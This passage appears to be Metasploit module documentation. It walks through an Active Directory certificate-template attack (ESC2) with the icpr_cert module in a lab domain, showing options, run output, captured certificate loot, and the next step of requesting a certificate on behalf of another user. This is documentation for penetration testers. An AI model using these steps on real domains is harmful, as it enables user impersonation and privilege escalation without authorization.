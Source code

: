 ```
   SMBDomain      DAFOREST                     no        The Windows domain to use for authentication
   SMBPass        normaluser                   no        The password for the specified username
   SMBUser        normal                       no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: normal@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-1611
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot

Loot
====

host  service  type           name             content               info                         path
----  -------  ----           ----             -------               ----                         ----
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx

msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

Next, we need to use the PFX file that we got to request another certificate to authenticate on behalf of another user. We will use the `PFX` option to specify the PFX file, and the `ON_BEHALF_OF` setting to specify the user we would like to authenticate on behalf of. Finally we will change the certificate template to another certificate template that we are able to enroll in. The default `User` certificate should work here since it allows enrollment by any authenticated domain user.

```
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting              Required  Description
   ----           ---------------              --------  -----------
   ALT_DNS                                     no        Alternative certificate DNS
   ALT_UPN                                     no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA  yes       The target certificate authority
   CERT_TEMPLATE  ESC2-Template                yes       The certificate template
   ON_BEHALF_OF                                no        Username to request on behalf of (format: DOMAIN\USER)
   PFX                                         no        Certificate to request on behalf of
   RHOSTS         172.30.239.85                yes       The target host(s), see https://github.com/rapid7/metas
```
